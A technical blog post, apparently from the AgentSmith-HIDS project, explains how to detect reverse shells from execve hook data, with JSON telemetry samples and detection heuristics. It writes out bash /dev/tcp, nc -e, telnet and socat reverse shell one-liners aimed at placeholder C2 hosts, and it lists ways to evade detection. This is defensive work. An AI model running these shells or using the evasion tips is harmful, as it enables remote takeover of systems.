









# How to detect reverse shell by AgentSmith-HIDS 

Reverse shell is a kind of post-invasion behavior with a long history, and is used by various kinds of attackers from script kiddie to APT attackers. Therefore, for an HIDS, it is inevitable that detection capability should be considered. However, there are plenty of, and highly flexible ways to achieve reversing shell, while currently few common detection methods that provide low false positive and false negative rates. AgentSmith-HIDS, as a product specially designed for intrusion detection, will bring you a different thought and approach.


#### 1.What is a reverse shell

When hackers get the permissions of a server, usually they cannot connect the host via a forward tunnel such as SSH due to no public IP bind to it or the connection is blocked by a firewall. So, they will need the compromised server itself to actively establish a connection to their remote side, therefore further commands can be passed to the host through it, that is called **reverse shell**.




#### 2.Execve Hook Information of AgentSmith-HIDS

Since the main idea of this article is to explain how we can use **AgentSmith-HIDS** to detect the reverse shell, and basically, we will use Execve Hook information to detect it, it is helpful to look into Execve Hook information carefully at the beginning.

Let's look at an example first:
```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls --color=auto --indicator-style=classify ",
    "pid":"6766",
    "ppid":"2202",
    "pgid":"6766",
    "tgid":"6766",
    "comm":"ls",
    "nodename":"test",
    "stdin":"/dev/pts/2",
    "stdout":"/dev/pts/2",
    "sessionid":"5",
    "dip":"192.168.165.1",
    "dport":"50431",
    "sip":"192.168.165.152",
    "sport":"22",
    "sa_family":"1",
    "pid_tree":"1(systemd)->1565(sshd)->2129(sshd)->2132(bash)->2202(fish)->6766(ls)",
    "tty_name":"pts2",
    "socket_process_pid":"2129",
    "socket_process_exe":"/usr/sbin/sshd",
    "SSH_CONNECTION":"192.168.165.1 50431 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580104906853",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"686cd72b4339da33bfb6fe8fb94a301f"
}
```

Part of the field information and source (other basic information will not be repeated):

| Field                                 | Remark                                                           |
| ------------------------------------- | -----------------------------------------------------------------|
| nodename                              | Node name of Linux namespace, hostname or container name         |
| stdin/stdout                          | Process standard input / standard output information             |
| sessionid                             | Process session id                                               |
| pid_tree                              | Process tree                                                     |
| dip/dport/sip/sport                   | **4-tuple of the first socket of the process tree where this process is under (looking in ascending order and limited to AF_INET or AF_INET6)** |
| socket_process_pid/socket_process_exe | The pid and exe information of the first valid socket process    |
| tty_name                              | Process tty information                                          |
| SSH_CONNECTION                        | Extracted from environment variables, SSH connection information |
| LD_PRELOAD                            | Extracted from environment variables, LD_PRELOAD                 |

Among them, it may be a bit difficult to understand **dip/dport/sip/sport** . Let's look at the above example: it can be determined that the **ls** command has been executed via **exe** and **argv** . Meantime, we looked into **dip/dport/sip/sport** and **socket_process_pid / socket_process_exe**, we got to know that this is a connection by **sshd** and a **ssh**. Since**ls** itself does not need network connection, then AgentSmith-HIDS will look up and stops if find a valid process or reach the head of the tree if nothing found. Obviously, the **ls** command is executed by someone who logged onto this host via a SSH tunnel, we will find the connection information for the **ssh**. This also can be found when you compare with **SSH_CONNECTION** in the environment variable.



It should be noted that this information may be interfered. Due to performance considerations, we don't want to extract all the socket information or traverse all the 'fd' of each process, which will become a potential limitation.


#### 3. The simplest reverse shell

The simplest reverse shell is `bash -i`, like this:

`bash -i >& /dev/tcp/c2_ip/c2_port 0>& 1`

The `-i` parameter indicates that an interactive shell is generated, and then TCP takes over the input and output of the shell to achieve a reverse shell. The control terminal lies in remote side only needs to use this in advance:

`nc -l port`

You can listen to the specified port and wait for the shell to visit the door obediently.


When facing this most basic reverse shell, it seems people are using the same detection approach, which is: if there is a bash process's stdin/stdout (standard input / standard output) pointing to a certain socket connection, we consider it is probably a reverse shell behavior.

Usually we review the stdin/stdout of a process under `/proc/pid/fd`. By default 0 is stdin, 1 is stdout, and 2 is stderr.


Such detection is pretty simple when using AgentSmith-HIDS, we can use the data obtained by the execve hook here:

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/bash",
    "exe":"/usr/bin/bash",
    "argv":"bash -i ",
    "pid":"6364",
    "ppid":"2549",
    "pgid":"6364",
    "tgid":"6364",
    "comm":"bash",
    "nodename":"test",
    "stdin":"socket:[80649]",
    "stdout":"socket:[80649]",
    "sessionid":"3",
    "dip":"127.0.0.1",
    "dport":"233",
    "sip":"127.0.0.1",
    "sport":"60620",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->2093(sshd)->2096(bash)->2147(fish)->2549(bash)->6364(bash)",
    "tty_name":"pts0",
    "socket_process_pid":"6364",
    "socket_process_exe":"/usr/bin/bash",
    "SSH_CONNECTION":"192.168.165.1 50422 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580104472249",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"f926bedd777fa0f4f71dd2d28155862a",
    "socket_process_exe_md5":"f926bedd777fa0f4f71dd2d28155862a"
}
```

Pay attention to exe and stdin and stdout. According to the feature we just mentioned, you can easily find this type of reverse shell, and you can also locate C2 with the help of **dip/dport/sip/sport**.

Other similar ones which you may already know well, such as python/perl reverse shell scripts, we will not discuss too much here, most of them point the stdin/out of bash to the socket connection, which is same in nature.


#### 4. The easiest reverse shell(2)

In addition to `bash -i`, there is another common way is ` nc -e`, which is used as follows:

`nc -e /usr/bin/bash c2_ip c2_port`

Let's follow the previous ideas to see what the stdin and stdout of the bash process look like, and whether there are obvious input and output points to the network connection:





Unfortunately, it is not the same case like the one above. However, we can still use following inforamtion to detect it:

* argv is `nc -e`
* bash's parent process is `nc`
* The bash process or its parent process has an abnormal network connection
* Track the stdin / out pipe and try to detect if the process of the final pipe connection generated an abnormal network connection

That seems a bit exhausting, while if you are using AgentSmith-HIDS, there are other detection methods, we will talk about later.


#### 5.Advanced Version(1)

`telnet c2_ip c2_port 0 <SOME_DEVNAME | / bin / bash 1> SOME_DEVNAME`



Let's look at the stdin/stdout of the bash process:




#### 5.Advanced version(2)

`socat exec: 'bash -li', pty, stderr, setid, sigint, sane tcp: c2_ip: c2_port`



Let's look at the stdin/stdout of the bash process:




#### 6. Other backdoor implementations

Here is an example using MSF backdoor:



Well, if there is no bash process at all, the traditional approach will obviously fail here.

This kind of scenario happens a lot, because in nature **bash** is a **for{ execve() }**.


#### 7. Let's talk about how to bypass traditional detection methods

* You can use the advanced methods mentioned above
* Use mature backdoors, such as msf, apache backdoor module and nginx backdoor module, etc.
* Implement elf loader yourself
* Obfuscate the file name, process name, and/or md5 of the tool or binary file used by the reverse shell, such as nc/bash etc. You can also avoid detection by compiling your own source code
* and many more......


#### 8. Summarize the characteristics of the rebound shell

Now we can see that the reverse shell is actually a behavior that is very difficult to be fully detected, because its essence is: **execution of execve or something under remote control**. According to the traditional approach, we focus on the input and output of **bash**, but **determining it is a bash** is something **impossible and meaningless**, since it can be easily to be bypassed if we only look at process name and/or file name. Secondly, bash is not necessarily the only option for hackers.

Thankfully, we still have a glimmer of hope to achieve a more comprehensive detection. Let's try to summarize and sort it out:

* The reverse shell is usually somebody executes something on a compromised host remotely
* Most of the execution is via execve syscall (of course there is still a small part of cases isn't)
* In nature, the execve creates a new process. For example, when we execute 'ls' in bash, bash is the parent process, 'ls' is the child process, and it is the newly created process
* The child process inherits the file descriptor(fd) of the parent process (not definately but most of the time it does)
* From the above points, we can infer that we can switch from **observing an abnormal bash** to **observing an abnormal process**, because parent and child processes have file descriptor inheritance


#### 9. How to use AgentSmith-HIDS to detect a reverse shell

According to the above examples and inference, the detection methods can be:

* Traditional detection approach, such as: abnormal stdin/stdout in the bash process, or abnormal argv, or an abnormal network connection in the bash process tree, etc.
* Locate a few binary files that are **most likely to be used by intruders if there is a reverse shell** and **Normally the most likely binary files are used under ssh login**, such as ls/cat/ip, etc. If the **stdin/stdout** and **tty** of these processes are found to be inconsistent, you got an alarm generated
* Locate a few binary files that are **most likely to be used by intruders if there is a reverse shell** and **Normally the most likely binary files are used under ssh login**, such as ls/cat/ip, etc. If the **dip/dport/sip/sport** and **SSH_CONNECTION** of these processes are found inconsistent, once again you got an alarm generated


If you find a case or receive an alarm of reverse shell, and you are lucky, **dip/dport/sip/sport** will tell you some valuable information, of course on the contrary, it may also be worthless, and you need to manually check for more evidence yourself (such as: advanced version 1 Happening).


Following are some examples, all with execution of 'ls', you can mainly observe **stdin/out** and **tty_name**, **dip/dport/sip/sport**, **socket_process_pid/socket_process_exe** And **SSH_CONNECTION**:


**"The easiest reverse shell(2)" AgentSmith-HIDS Execve Data:**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls ",
    "pid":"25131",
    "ppid":"25118",
    "pgid":"25117",
    "tgid":"25131",
    "comm":"ls",
    "nodename":"test",
    "stdin":"pipe:[93621]",
    "stdout":"pipe:[93622]",
    "sessionid":"11",
    "dip":"127.0.0.1",
    "dport":"233",
    "sip":"127.0.0.1",
    "sport":"36246",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->25086(fish)->25117(nc)->25118(bash)->25131(ls)",
    "tty_name":"pts0",
    "socket_process_pid":"25131",
    "socket_process_exe":"/usr/bin/ls",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580122709834",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64"
}
```


**"Advanced Version(1)" AgentSmith-HIDS Execve Data:**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls ",
    "pid":"25503",
    "ppid":"25495",
    "pgid":"25494",
    "tgid":"25503",
    "comm":"ls",
    "nodename":"test",
    "stdin":"pipe:[94503]",
    "stdout":"/dev/pts/0",
    "sessionid":"11",
    "dip":"192.168.165.1",
    "dport":"64289",
    "sip":"192.168.165.152",
    "sport":"22",
    "sa_family":"1",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->25086(fish)->25473(bash)->25495(bash)->25503(ls)",
    "tty_name":"pts0",
    "socket_process_pid":"16471",
    "socket_process_exe":"/usr/sbin/sshd",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580123032502",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"686cd72b4339da33bfb6fe8fb94a301f"
}
```


**"Advanced Version(2)" AgentSmith-HIDS Execve Data:**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls --color=auto ",
    "pid":"24697",
    "ppid":"24676",
    "pgid":"24697",
    "tgid":"24697",
    "comm":"ls",
    "nodename":"test",
    "stdin":"/dev/pts/4",
    "stdout":"/dev/pts/4",
    "sessionid":"11",
    "dip":"127.0.0.1",
    "dport":"233",
    "sip":"127.0.0.1",
    "sport":"36150",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->16490(fish)->24675(socat)->24676(bash)->24697(ls)",
    "tty_name":"pts4",
    "socket_process_pid":"24675",
    "socket_process_exe":"/usr/bin/socat",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580122431825",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"f639a31fa3050bc78868d35b46390536"
}
```


**"MSF backdoor" AgentSmith-HIDS Execve Data:**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls ",
    "pid":"24587",
    "ppid":"18303",
    "pgid":"18289",
    "tgid":"24587",
    "comm":"ls",
    "nodename":"test",
    "stdin":"pipe:[88900]",
    "stdout":"pipe:[88901]",
    "sessionid":"11",
    "dip":"192.168.165.152",
    "dport":"233",
    "sip":"192.168.165.152",
    "sport":"46852",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->16490(fish)->18289(backdoor)->18303(sh)->24587(ls)",
    "tty_name":"pts0",
    "socket_process_pid":"18289",
    "socket_process_exe":"/root/backdoor",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580122376221",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"1bc2f057dab264291f7e3117ebc2d50e"
}
```


#### 10. Summary

Can it still be bypassed? The answer is possible. There are still ways there to bypass it. But don't worry, only one Hook information of AgentSmith-HIDS is used for detection today, there are many others for us to detect intrusion behavior from different dimensions, so stay tuned.